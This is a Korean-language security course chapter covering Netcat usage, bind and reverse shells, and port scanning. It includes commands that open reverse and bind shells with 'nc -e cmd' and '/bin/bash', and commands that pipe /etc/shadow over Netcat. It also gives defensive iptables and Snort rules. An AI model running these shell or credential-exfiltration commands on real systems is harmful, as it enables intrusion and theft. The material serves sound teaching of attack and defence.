## 전체 흐름 요약

이번 Part 10에서는 네트워크 보안 및 침투 테스트의 핵심 도구들을 학습합니다.

먼저 **Netcat(nc)**을 배웁니다. Netcat은 "네트워크의 스위스 아미 나이프"라고 불리며, TCP/UDP를 이용하여 네트워크 연결을 하는 데 사용되는 유틸리티입니다. 네트워크 디버깅 및 조사 도구로 사용되며, 포트 스캔, 파일 전송, 포트 listening 기능을 포함하고 있습니다. 서비스 배너 수집, 클라이언트-서버 연결, 포트 스캔, 파일 전송 등의 다양한 활용법을 실습합니다.

다음으로 **Bind Shell과 Reverse Shell** 공격 기법을 학습합니다. Bind Shell은 희생자가 포트를 열고 공격자가 접속하는 정방향 쉘이며, Reverse Shell은 공격자가 포트를 열고 희생자가 접속하는 역방향 쉘입니다. 두 기법의 차이점과 각각의 장단점, 그리고 방어 방법을 이해합니다.

**포트 스캔(Port Scanning)**의 개념과 다양한 스캔 기법을 학습합니다. TCP Connect 스캔, TCP SYN(Half-Open) 스캔, FIN 스캔, NULL 스캔, XMAS 스캔, ACK 스캔, UDP 스캔 등 각 스캔 방식의 원리와 특징을 이해합니다. 3-way handshake의 동작 원리를 바탕으로 각 스캔 기법이 어떻게 포트 상태를 판별하는지 학습합니다.

마지막으로 **Nmap**을 활용한 실전 포트 스캔 및 네트워크 정찰을 실습합니다. Nmap은 네트워크 보안 감사에서 가장 널리 사용되는 도구로, 다양한 스캔 옵션, 타이밍 옵션, 출력 형식, OS 탐지 기능 등을 제공합니다. Decoy 스캔으로 스캔 출처를 은폐하는 방법과 방화벽 우회 기법도 다룹니다.

---

## 1. Netcat (nc)

### 1.1 Netcat이란?

**Netcat(nc)**은 TCP/UDP를 이용하여 네트워크 연결을 하는 데 사용되는 유틸리티입니다. "네트워크의 스위스 아미 나이프"라고 불릴 정도로 다양한 기능을 제공합니다.

#### Netcat의 주요 특징

- **네트워크 디버깅 및 조사 도구**로 사용됩니다
- **포트 스캔, 파일 전송, 포트 listening** 기능을 포함합니다
- **Backdoor로도 사용 가능**합니다 (보안 테스트 목적)
- TCP와 UDP 모두 지원합니다
- 매우 간단하면서도 강력한 기능을 제공합니다

#### Netcat 설치

```bash
# CentOS/RHEL
yum -y install nc

# Debian/Ubuntu
apt-get install -y netcat

# 설치 확인
nc -h

# 윈도우 nc 다운로드:
# https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip
```



### 1.2 Netcat 주요 옵션

| 옵션 | 설명 |
|------|------|
| `-e` | 커넥션 이후 특정 프로그램 실행 (예: cmd, /bin/bash) |
| `-l` | Listen 모드 실행 (서버 역할) |
| `-p` | 로컬 포트 지정 |
| `-v` | Verbose 모드 (자세한 설명 출력) |
| `-vv` | 더 자세한 정보 표시 |
| `-w` | Wait time, 연결 시 timeout 시간 설정 |
| `-C` | 윈도우 개행 문자(CRLF)로 변환 |
| `-n` | IP 주소 입력 (DNS 사용하지 않음) |
| `-d` | Detach, 콘솔에서 분리되어 백그라운드 모드로 실행 |
| `-z` | Zero-I/O 모드 (데이터 전송 없이 스캔만 수행) |
| `-u` | UDP 모드 사용 |

### 1.3 서비스 배너 수집

네트워크 서비스의 배너(banner) 정보를 수집하여 버전 정보를 파악할 수 있습니다.

```bash
# HTTP 서비스 배너 수집 (HEAD 메서드)
echo -e "HEAD / HTTP/1.1\n\n" | nc google.com 80

# HTTP 서비스 배너 수집 (GET 메서드)
echo -e "GET / HTTP/1.1\n\n" | nc google.com 80

# 출력 예시:
# HTTP/1.1 200 OK
# Date: Thu, 15 Jan 2025 10:00:00 GMT
# Server: gws
# ...
```

**배너 수집의 보안적 의미:**
- 서비스의 버전 정보를 파악하여 알려진 취약점을 찾을 수 있습니다
- 서버의 운영체제나 웹 서버 종류를 추측할 수 있습니다
- 보안 설정 상태를 확인할 수 있습니다

#### 다양한 서비스 배너 수집 예시

```bash
# SSH 배너 수집
nc -vn 192.168.1.100 22

# FTP 배너 수집
nc -vn 192.168.1.100 21

# SMTP 배너 수집
nc -vn 192.168.1.100 25

# MySQL 배너 수집
nc -vn 192.168.1.100 3306
```

### 1.4 클라이언트와 서버 연결

Netcat을 사용하여 간단한 채팅 서버를 구축하거나 원격 연결을 테스트할 수 있습니다.

#### 기본 연결 방법

```
서버 (listening 상태): nc -lvp [포트 번호]
클라이언트 (서버 접속): nc [서버 IP] [포트 번호]
```



#### 실습: Netcat 채팅 서버 구축

##### 1단계: 서버(리눅스)에 nc 설치

```bash
# CentOS/RHEL
yum -y install nc

# 설치 확인
nc -h
```

##### 2단계: 방화벽 설정 (포트 9999/tcp 열기)

```bash
# 포트 9999 열기 (임시)
firewall-cmd --add-port=9999/tcp

# 방화벽 규칙 확인
firewall-cmd --list-ports

# 영구 적용 (재부팅 후에도 유지)
firewall-cmd --add-port=9999/tcp --permanent
firewall-cmd --reload
```

##### 3단계: nc로 포트 Listening

```bash
# 서버에서 9999 포트를 listening 상태로 만듦
nc -lvp 9999

# 출력:
# Ncat: Version 7.50 ( https://nmap.org/ncat )
# Ncat: Listening on :::9999
# Ncat: Listening on 0.0.0.0:9999
```

**옵션 설명:**
- `-l`: Listen 모드 (서버 역할)
- `-v`: Verbose (자세한 정보 출력)
- `-p 9999`: 포트 번호 9999 사용

##### 4단계: netstat으로 네트워크 상태 확인

```bash
# 다른 터미널에서 확인
netstat -antp | grep 9999

# 출력 예시:
# tcp 0 0 0.0.0.0:9999 0.0.0.0:* LISTEN 12345/nc
```

##### 5단계: 클라이언트에서 서버 접속

```bash
# 윈도우 클라이언트
C:\> nc 192.168.10.128 9999

# 또는 리눅스 클라이언트
nc 192.168.10.128 9999
```

**연결 성공 후:**
- 서버와 클라이언트 양쪽에서 메시지를 입력하면 실시간으로 전송됩니다
- `Ctrl+C`로 연결을 종료할 수 있습니다

#### 실전 활용 시나리오

```bash
# 시나리오 1: 원격 시스템의 특정 포트 접근 가능 여부 테스트
nc -zv 192.168.1.100 22
# 출력: Connection to 192.168.1.100 22 port [tcp/ssh] succeeded!

# 시나리오 2: 방화벽 테스트 (타임아웃 설정)
nc -w 5 -zv 192.168.1.100 80
# -w 5: 5초 타임아웃

# 시나리오 3: UDP 포트 테스트
nc -u -zv 192.168.1.100 53
# -u: UDP 모드
```

### 1.5 포트 스캔

Netcat을 사용하여 간단한 포트 스캔을 수행할 수 있습니다.

#### 기본 포트 스캔 명령어

```bash
# 문법
nc [옵션] [target IP] [스캔할 포트번호]

# 윈도우
nc -vz google.com 80

# 리눅스
nc -zv google.com 80
```

**옵션 설명:**
- `-z`: Zero-I/O 모드 (데이터 전송 없이 연결만 테스트)
- `-v`: Verbose (자세한 정보 출력)

#### 포트 스캔 실습

```bash
# 단일 포트 스캔
nc -zv 192.168.1.100 22

# 출력 예시:
# Connection to 192.168.1.100 22 port [tcp/ssh] succeeded!

# 여러 포트 스캔
nc -zv 192.168.1.100 20-25

# 출력 예시:
# nc: connect to 192.168.1.100 port 20 (tcp) failed: Connection refused
# Connection to 192.168.1.100 21 port [tcp/ftp] succeeded!
# Connection to 192.168.1.100 22 port [tcp/ssh] succeeded!
# nc: connect to 192.168.1.100 port 23 (tcp) failed: Connection refused
# ...

# 특정 포트들만 스캔
nc -zv 192.168.1.100 22 80 443 3306

# UDP 포트 스캔
nc -uzv 192.168.1.100 53
```

#### Netcat 포트 스캔의 한계

Netcat은 간단한 포트 스캔에는 유용하지만, 다음과 같은 한계가 있습니다:
- 스캔 속도가 느립니다
- 스텔스 스캔(Stealth Scan)을 지원하지 않습니다
- 대량의 포트를 스캔하기에는 비효율적입니다
- 서비스 버전 탐지 기능이 없습니다

**→ 이러한 한계를 극복하기 위해 Nmap을 사용합니다** (이후 섹션에서 다룸)

### 1.6 파일 전송

Netcat을 사용하여 네트워크를 통해 파일을 전송할 수 있습니다.

#### 파일 전송 문법

```bash
# 서버 (파일 전송자)
nc -lp [포트번호] < 파일명

# 클라이언트 (파일 수신자)
nc -w3 [서버 IP] [포트번호] > 파일명
```

**옵션 설명:**
- `-w3`: 3초 타임아웃 (전송 완료 후 자동 종료)
- `<`: 입력 리다이렉션 (파일 읽기)
- `>`: 출력 리다이렉션 (파일 쓰기)

#### 방법 1: 입력 리다이렉션 사용

리눅스에서 윈도우로 파일 전송 시 `-C` 옵션을 사용하여 개행 문자를 윈도우용 개행 문자(CRLF)로 변경합니다.

```bash
# 서버(리눅스): 전송할 파일을 입력 리다이렉션
nc -C -lp 9999 < /etc/shadow

# 클라이언트(윈도우): 파일 수신
C:\> nc -w3 192.168.1.100 9999 > shadow.txt
```

#### 방법 2: 파이프(|) 사용

```bash
# 서버: 파이프로 파일 내용 전송
cat /etc/shadow | nc -C -lp 9999

# 클라이언트: 파일 수신
nc -w3 192.168.1.100 9999 > shadow.txt
```

#### 대용량 파일 전송 (압축 사용)

```bash
# 서버: tar로 압축하면서 전송
tar -czf - /var/www/html | nc -lp 9999

# 클라이언트: 압축 해제하면서 수신
nc 192.168.1.100 9999 | tar -xzf -
```

#### 디렉토리 전체 전송

```bash
# 서버: 디렉토리를 tar로 묶어서 전송
tar -czf - /home/user/documents | nc -lp 9999

# 클라이언트: 수신 및 압축 해제
nc 192.168.1.100 9999 | tar -xzf - -C /backup/
```

#### 전송 진행률 확인 (pv 사용)

```bash
# pv 설치
yum install -y pv

# 서버: 전송 진행률 표시
cat bigfile.iso | pv | nc -lp 9999

# 클라이언트: 수신 진행률 표시
nc 192.168.1.100 9999 | pv > bigfile.iso
```

---

## 2. Bind Shell & Reverse Shell 공격

### 2.1 Bind Shell (정방향 쉘)

**Bind Shell**은 서버(희생자)에서 포트를 열고, 클라이언트(공격자)에서 서버(희생자)쪽으로 접속하여 쉘을 얻는 방식입니다.

#### Bind Shell의 특징

- **공격자 → 희생자 방향**으로 연결이 이루어집니다
- 희생자 PC에서 방화벽 특정 포트를 열어 놓아야 합니다
- 공격자는 희생자의 특정 포트에 접속합니다
- 희생자가 포트를 열어두고 공격자가 접속하기를 기다립니다



#### Bind Shell 실습

##### 공격자 PC (클라이언트)

```bash
nc [희생자 IP] [포트 번호]
```

##### 희생자 PC (서버)

```bash
# 윈도우
nc -lvp [포트번호] -e cmd

# 리눅스
nc -lvp [포트번호] -e /bin/bash
```

##### 실습 1: 희생자 PC에서 포트 열기 (윈도우)

```bash
# 1단계: 희생자 PC에서 포트 4444를 listening
C:\> nc -lvp 4444 -e cmd

# 출력:
# listening on [any] 4444 ...
```

**주의:** `-e` 옵션은 보안상 위험하므로 일부 nc 버전에서는 제거되었습니다.

##### 실습 2: 윈도우 방화벽 Inbound 포트 열기

```
1. 방화벽 고급 설정 열기
   - 제어판 > 시스템 및 보안 > Windows Defender 방화벽
   - 좌측 "고급 설정" 클릭

2. 인바운드 규칙 > 새 규칙 클릭

3. 규칙 종류: 포트 선택 > 다음

4. 프로토콜: TCP 선택

5. 특정 로컬 포트: 4444 입력 > 다음

6. 작업: 연결 허용 > 다음

7. 프로필: 모두 체크 > 다음

8. 이름: "NC Bind Shell Test" > 완료
```

##### 실습 3: 공격자 PC에서 접속

```bash
# 공격자(리눅스) → 희생자(윈도우) 접속
nc 192.168.1.50 4444

# 접속 성공 시 윈도우 cmd 쉘 획득
C:\>

# 명령어 실행
C:\> dir
C:\> ipconfig
C:\> whoami
```

#### Bind Shell의 문제점

1. **방화벽 제약**: 희생자 PC의 방화벽에서 Inbound 포트를 열어야 하므로 탐지되기 쉽습니다
2. **IDS/IPS 탐지**: 외부에서 내부로 들어오는 연결이므로 침입 탐지 시스템이 쉽게 발견할 수 있습니다
3. **NAT 문제**: 희생자가 NAT 뒤에 있으면 공격자가 직접 접속할 수 없습니다

**→ 이러한 문제를 해결하기 위해 Reverse Shell을 사용합니다**

### 2.2 Reverse Connection Shell (역방향 쉘)

**Reverse Shell**은 클라이언트(공격자)가 포트를 열고, 서버(희생자)에서 클라이언트(공격자)쪽으로 접속하는 방식입니다.

#### Reverse Shell의 특징

- **희생자 → 공격자 방향**으로 연결이 이루어집니다
- 희생자 측에서 공격자의 PC로 연결 요청을 하므로 **NAT 및 방화벽 정책을 우회**할 수 있습니다
- 공격자는 특정 포트를 먼저 열어두고 희생자가 접속하기를 기다립니다
- **Outbound 트래픽은 방화벽에서 허용되는 경우가 많아** 더 효과적입니다



#### Reverse Shell 실습

##### 공격자 PC (서버)

```bash
nc -lvp [포트 번호]
```

##### 희생자 PC (클라이언트)

```bash
# 윈도우
nc [공격자 IP] [포트 번호] -e cmd

# 리눅스
nc [공격자 IP] [포트 번호] -e /bin/bash
```

##### 실습 1: 공격자 PC에서 포트 열기 (리눅스)

```bash
# 공격자 PC에서 포트 9999를 listening
nc -lvp 9999

# 출력:
# Ncat: Version 7.50
# Ncat: Listening on :::9999
# Ncat: Listening on 0.0.0.0:9999
```

##### 실습 2: 희생자 PC에서 역방향 연결 (윈도우)

```bash
# 희생자(윈도우)에서 공격자(리눅스)로 연결
C:\> nc 192.168.10.128 9999 -e cmd
```

##### 실습 3: 공격자 PC에서 쉘 획득 확인

```bash
# 공격자 PC 터미널에 연결 메시지 표시
# Ncat: Connection from 192.168.1.50.
# Ncat: Connection from 192.168.1.50:49152.

# 윈도우 cmd 쉘 획득
C:\>

# 명령어 실행
C:\> whoami
C:\> hostname
C:\> dir C:\
```

#### Bind Shell vs Reverse Shell 비교

| 구분 | Bind Shell (정방향) | Reverse Shell (역방향) |
|------|---------------------|----------------------|
| **연결 방향** | 공격자 → 희생자 | 희생자 → 공격자 |
| **포트 오픈** | 희생자가 포트 오픈 | 공격자가 포트 오픈 |
| **방화벽 우회** | Inbound 차단 시 실패 | Outbound는 보통 허용 |
| **NAT 환경** | NAT 뒤에 있으면 불가능 | NAT 환경에서도 가능 |
| **탐지 난이도** | 쉬움 (Inbound 연결) | 어려움 (Outbound 연결) |
| **실전 선호도** | 낮음 | 높음 |



### 2.3 Shell 공격 방어 방법

#### 1. Netcat -e 옵션 제거

많은 현대 리눅스 배포판에서는 보안상의 이유로 nc의 `-e` 옵션을 제거한 버전을 제공합니다.

```bash
# 안전한 nc 버전 확인
nc -h 2>&1 | grep -e '-e'
# -e 옵션이 없으면 안전한 버전
```

#### 2. 방화벽 규칙 강화

```bash
# Outbound 연결 제한 (화이트리스트 방식)
iptables -P OUTPUT DROP
iptables -A OUTPUT -p tcp --dport 80 -j ACCEPT   # HTTP 허용
iptables -A OUTPUT -p tcp --dport 443 -j ACCEPT  # HTTPS 허용
iptables -A OUTPUT -p tcp --dport 53 -j ACCEPT   # DNS 허용

# 의심스러운 포트 차단
iptables -A OUTPUT -p tcp --dport 4444 -j DROP
iptables -A OUTPUT -p tcp --dport 9999 -j DROP
```

#### 3. 프로세스 모니터링

```bash
# nc 프로세스 확인
ps aux | grep nc

# 의심스러운 네트워크 연결 확인
netstat -antp | grep ESTABLISHED
ss -antp | grep ESTABLISHED

# lsof로 열린 파일 및 네트워크 연결 확인
lsof -i -P -n | grep LISTEN
```

#### 4. SELinux / AppArmor 활성화

```bash
# SELinux 상태 확인
getenforce

# SELinux 활성화
setenforce 1

# 영구 설정
vi /etc/selinux/config
# SELINUX=enforcing
```

#### 5. 침입 탐지 시스템 (IDS) 사용

```bash
# Snort 설치 (예시)
yum install -y snort

# Snort 규칙 예시 (/etc/snort/rules/local.rules)
alert tcp any any -> any any (msg:"Possible Netcat Shell"; content:"-e"; sid:1000001;)
```

---

## 3. 포트 스캔 (Port Scanning)

### 3.1 포트 스캔의 개념

**포트 스캔(Port Scanning)**은 대상 시스템의 열려있는 포트를 찾아내는 정찰(Reconnaissance) 기법입니다. 공격자는 포트 스캔을 통해 다음 정보를 수집합니다:

- 어떤 서비스가 실행 중인가?
- 서비스의 버전은 무엇인가?
- 방화벽이 설정되어 있는가?
- 운영체제는 무엇인가?



### 3.2 TCP 3-Way Handshake 복습

포트 스캔의 원리를 이해하려면 먼저 TCP 3-Way Handshake를 이해해야 합니다.



#### 포트 상태별 응답

| 포트 상태 | SYN 전송 시 응답 |
|-----------|------------------|
| **열림 (Open)** | SYN+ACK 응답 |
| **닫힘 (Closed)** | RST+ACK 응답 |
| **필터링 (Filtered)** | 응답 없음 (방화벽 차단) |

### 3.3 포트 스캔 종류

#### 1) TCP Connect 스캔 (TCP Open 스캔)

**TCP Connect 스캔**은 `connect()` 시스템 콜을 사용하여 완전한 3-Way Handshake를 수행하는 스캔 방식입니다.

**특징:**
- TCP 세션 연결을 완전히 수행합니다
- 3-Way Handshake 과정을 모두 거치므로 **로그 기록이 남습니다**
- 속도가 느립니다
- 일반 사용자 권한으로도 실행 가능합니다
- 가장 정확한 스캔 결과를 제공합니다

